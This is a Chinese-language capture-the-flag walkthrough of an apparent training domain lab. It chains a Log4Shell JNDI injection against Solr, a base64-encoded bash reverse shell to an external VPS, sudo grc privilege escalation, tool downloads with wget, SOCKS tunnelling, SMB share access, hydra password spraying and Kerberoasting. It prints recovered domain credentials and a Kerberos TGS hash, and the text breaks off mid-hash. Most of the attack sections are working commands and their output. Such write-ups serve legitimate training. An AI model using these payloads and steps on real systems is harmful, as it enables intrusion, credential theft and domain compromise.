

## 考点

- log4j2 jndi注入
- grc提权
- SMB
- 密码喷洒
- Kerberoasting
- ESC1

## flag1

老规矩扫一下端口

```bash
root@VM-16-12-ubuntu:/opt# ./fscan -h 39.98.115.144 -p 1-65535

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
39.98.115.144:22 open
39.98.115.144:80 open
39.98.115.144:8983 open
[*] alive ports len is: 3
start vulscan
[*] WebTitle http://39.98.115.144      code:200 len:612    title:Welcome to nginx!
[*] WebTitle http://39.98.115.144:8983 code:302 len:0      title:None 跳转url: http://39.98.115.144:8983/solr/
[*] WebTitle http://39.98.115.144:8983/solr/ code:200 len:16555  title:Solr Admin
已完成 3/3
[*] 扫描结束,耗时: 41.75680271s
```

### CVE-2021-44228

访问8983端口发现使用了log4j2日志框架，找一下cvehttps://www.cnblogs.com/fdxsec/p/17793755.html



用yakit的dns服务器或者dnslog测试一下

```bash
http://39.98.115.144:8983/solr/admin/collections?action=${jndi:ldap://xbboedbyid.lfcx.eu.org}
```



能进行dns外带，漏洞存在，那就直接打，jndi工具https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0

这个jar包要求是java8版本

关于工具的参数

- `-C`：要执行的命令（Base64 编码）。
- `-A`：攻击者 IP（用于反弹 Shell）。

然后我们进行反弹shell，记得vps需要开启LDAP服务

```bash
nc -lvvp 9999

root@VM-16-12-ubuntu:/opt/javaexp# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}" -A 124.223.25.186
[ADDRESS] >> 124.223.25.186
[COMMAND] >> bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://124.223.25.186:1099/vanke4
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://124.223.25.186:1099/hwwlod
ldap://124.223.25.186:1389/hwwlod
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://124.223.25.186:1099/21gfqn
ldap://124.223.25.186:1389/21gfqn

----------------------------Server Log----------------------------
2025-11-09 14:25:32 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2025-11-09 14:25:32 [RMISERVER]  >> Listening on 0.0.0.0:1099
2025-11-09 14:25:33 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

根据jdk版本选择

```bash
http://39.98.115.144:8983/solr/admin/collections?action=${jndi:ldap://124.223.25.186:1389/hwwlod}
```



权限比较低，尝试SUDO命令提权

### grc提权

sudo -l 用于 列出当前用户可以执行的 sudo 命令

```bash
solr@ubuntu:/opt/solr/server$ sudo -l
sudo -l
Matching Defaults entries for solr on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User solr may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/grc
```

看到一个grc，可以参考https://gtfobins.github.io/gtfobins/grc/提权



传入`sudo grc --pty /bin/sh`会开启一个shell，在里面执行命令就可以进行提权了



或者sudo grc后面跟想要执行的命令也行

```bash
sudo grc whoami
```



发现此时是root权限了，那我们读一下flag，通常在root目录下

```bash
solr@ubuntu:/opt/solr/server$ sudo grc --pty /bin/sh
sudo grc --pty /bin/sh
whoami
root
pwd
/opt/solr-8.11.0/server
cd /
cd /root
ls
flag
cd flag
ls
flag01.txt
cat flag01.txt
   ██████                   ██   ██   ████         
  ██░░░░██                 ░██  ░░   ░██░   ██   ██
 ██    ░░   █████  ██████ ██████ ██ ██████ ░░██ ██ 
░██        ██░░░██░░██░░█░░░██░ ░██░░░██░   ░░███  
░██       ░███████ ░██ ░   ░██  ░██  ░██     ░██   
░░██    ██░██░░░░  ░██     ░██  ░██  ░██     ██    
 ░░██████ ░░██████░███     ░░██ ░██  ░██    ██     
  ░░░░░░   ░░░░░░ ░░░       ░░  ░░   ░░    ░░      

Easy right?
Maybe you should dig into my core domain network.

flag01: flag{d575d1bb-9138-480b-9843-90d7fd033716}
```

## 内网穿透

一样的，通过wget把fscan和stowaway下进去

```bash
cd /tmp

wget http://124.223.25.186/fscan
wget http://124.223.25.186/linux_x64_agent

chmod +x *
```

### fscan内网扫描

先看看内网ip

```bash
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.9.19  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe24:ef8e  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:24:ef:8e  txqueuelen 1000  (Ethernet)
        RX packets 129508  bytes 179709298 (179.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 25457  bytes 4922592 (4.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1726  bytes 208939 (208.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1726  bytes 208939 (208.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

用fscan扫一下

```bash
./fscan -h 172.22.9.0/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
(icmp) Target 172.22.9.19     is alive
(icmp) Target 172.22.9.7      is alive
(icmp) Target 172.22.9.26     is alive
(icmp) Target 172.22.9.47     is alive
[*] Icmp alive hosts len is: 4
172.22.9.26:139 open
172.22.9.26:445 open
172.22.9.47:445 open
172.22.9.7:445 open
172.22.9.7:139 open
172.22.9.47:139 open
172.22.9.26:135 open
172.22.9.7:135 open
172.22.9.47:80 open
172.22.9.7:80 open
172.22.9.47:22 open
172.22.9.19:80 open
172.22.9.47:21 open
172.22.9.19:22 open
172.22.9.19:8983 open
172.22.9.7:88 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo 
[*]172.22.9.7
   [->]XIAORANG-DC
   [->]172.22.9.7
[*] WebTitle http://172.22.9.19        code:200 len:612    title:Welcome to nginx!
[*] NetInfo 
[*]172.22.9.26
   [->]DESKTOP-CBKTVMO
   [->]172.22.9.26
[*] NetBios 172.22.9.26     DESKTOP-CBKTVMO.xiaorang.lab        �WWindows Server 2016 Datacenter 14393
[*] NetBios 172.22.9.7      [+] DC:XIAORANG\XIAORANG-DC    
[*] WebTitle http://172.22.9.47        code:200 len:10918  title:Apache2 Ubuntu Default Page: It works
[*] NetBios 172.22.9.47     fileserver                          Windows 6.1
[*] OsInfo 172.22.9.47  (Windows 6.1)
[*] WebTitle http://172.22.9.19:8983   code:302 len:0      title:None 跳转url: http://172.22.9.19:8983/solr/
[*] WebTitle http://172.22.9.7         code:200 len:703    title:IIS Windows Server
[+] PocScan http://172.22.9.7 poc-yaml-active-directory-certsrv-detect 
[*] WebTitle http://172.22.9.19:8983/solr/ code:200 len:16555  title:Solr Admin
已完成 15/16 [-] ftp 172.22.9.47:21 ftp ftp111 530 Login incorrect. 
```

- 172.22.9.19 已经拿下
- 172.22.9.26 DESKTOP-CBKTVMO.xiaorang.lab
- 172.22.9.7 DC:XIAORANG\XIAORANG-DC
- 172.22.9.47 fileserver 

然后我们搭建代理

### 搭建隧道

```bash
./linux_x64_agent -c 124.223.25.186:2334 -s 123 --reconnect 8

./linux_64_admin -l 2334 -s 123

use 0
socks 3333

sudo vim /etc/proxychains4.conf
```

然后Windows在proxifier配置代理

## flag2

### SMB共享文件

访问一下172.22.9.47



这种文件服务器fileserver 一般都会开启SMB服务，我们用nmap扫描一下端口

```bash
proxychains4 nmap -sT -Pn -n --top-ports 1000 172.22.9.47
# 或者全扫描
proxychains4 nmap -sT -Pn -n -p- 172.22.9.47
```

- `-sT` ：TCP connect 扫描（full TCP connect）
- `-Pn`：**跳过主机发现**（不做 ICMP/ping/ARP 扫描），直接尝试连接目标端口。常用于目标禁用了 ping 或被防火墙屏蔽、但你仍想尝试端口连接时。
- `-n`：**不做 DNS 解析**（不把 IP 反解析成主机名），能稍微加速并避免 DNS 相关噪声。
- `-p-`：扫描**全部端口**（从 1 到 65535），而不是默认的常见端口集合。



发现445端口确实开着，那我们直接用smbclient去连，smbclient 是一个 命令行工具，用于与 Windows SMB/CIFS 共享（如文件共享、打印机共享）进行交互。它允许用户在 Linux/Unix 系统上访问 Windows 共享文件夹、上传/下载文件、执行远程命令等。https://github.com/fortra/impacket

```bash
proxychains4 impacket-smbclient 172.22.9.47
```



查看相关命令

```bash
# help

 open {host,port=445} - opens a SMB connection against the target host/port
 login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
 kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
 login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
 logoff - logs off
 shares - list available shares
 use {sharename} - connect to an specific share
 cd {path} - changes the current directory to {path}
 lcd {path} - changes the current local directory to {path}
 pwd - shows current remote directory
 password - changes the user password, the new password will be prompted for input
 ls {wildcard} - lists all the files in the current directory
 lls {dirname} - lists all the files on the local filesystem.
 tree {filepath} - recursively lists all files in folder and sub folders
 rm {file} - removes the selected file
 mkdir {dirname} - creates the directory under the current path
 rmdir {dirname} - removes the directory under the current path
 put {filename} - uploads the filename into the current path
 get {filename} - downloads the filename from the current path
 mget {mask} - downloads all files from the current directory matching the provided mask
 cat {filename} - reads the filename from the current path
 mount {target,path} - creates a mount point from {path} to {target} (admin required)
 umount {path} - removes the mount point at {path} without deleting the directory (admin required)
 list_snapshots {path} - lists the vss snapshots for the specified path
 info - returns NetrServerInfo main results
 who - returns the sessions currently connected at the target host (admin required)
 close - closes the current SMB Session
 exit - terminates the server process (and this session)

```

先列出可用的SMB共享

```bash
┌──(root㉿kali)-[/home/kali]
└─# proxychains4 impacket-smbclient 172.22.9.47
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[proxychains] Strict chain  ...  124.223.25.186:3333  ...  172.22.9.47:445  ...  OK
Type help for list of commands
# shares
print$
fileshare
IPC$
# 

```

得到三个共享列表

```bash
use fileshare
cd secret
cat flag02.txt
```



## flag3&flag4

之前在根目录看到一个数据库文件，用`get personnel.db`下下来,拖到物理机处理，放到Navicat里面看一下



只有密码没有用户名



这里有一大堆用户名，用密码喷洒

### 密码喷洒攻击

先将这两个表分别导出



发现导出之后是带引号的，放到kali里面用命令提取一下

```bash
cat xr_users.txt | awk -F'\t' 'NR>1 {gsub(/"/, "", $3); print $3}' > passwords.txt

awk -F'\t' 'NR>1 {gsub(/"/, "", $2); print $2"@xiaorang.lab"}' xr_salary.txt > username.txt


proxychains4 hydra -L username.txt -P passwords.txt 172.22.9.26 rdp >>result.txt
cat result.txt|| grep account
```

`hydra` 是一款 **多协议网络登录密码爆破工具**。https://blog.csdn.net/wangyuxiang946/article/details/128194559



最后拿到两个有效的用户

```bash
xiaorang.lab\liupeng:fiAzGwEMgTY
xiaorang.lab\zhangjian:i9XDE02pLVf
```

### Kerberoasting 攻击

但是这里给都没法rdp上去，但是这两个都是域用户，那我们可以试试查找下域用户下的服务spn并请求票据

```bash
proxychains4 impacket-GetUserSPNs -request -dc-ip 172.22.9.7 xiaorang.lab/zhangjian:i9XDE02pLVf
```



分别拿到chenchen和zhangxia的哈希

```bash
$krb5tgs$23$*zhangxia$XIAORANG.LAB$xiaorang.lab/zhangxia*$754a4e56a64b73d256c8fb73979598e4$d8a0dcd125dba89391e8c4168b4899a4267ae1b335427a4d459220ad9371c80600c0c69088fdcc0ecacaeb12d124b5be77f2bb585f8605238d5a1f62f461ec9fc1ce911895ff52151379b058d7bac996c6bec136b55818c793200f5f2d68be55267fb1060d688deb225d41f16e2d4a64e00053d22274cff45b4b68e9f7fae666a0893c8ac9529026b08cc6d251774707793f696117bf77d7dab1d4e148d226e35324041c0cb89aee2249a22855ee763a8ed4f277b131821ef0f63d2c9c6d59f963ade79a1485d2d61b8b98b8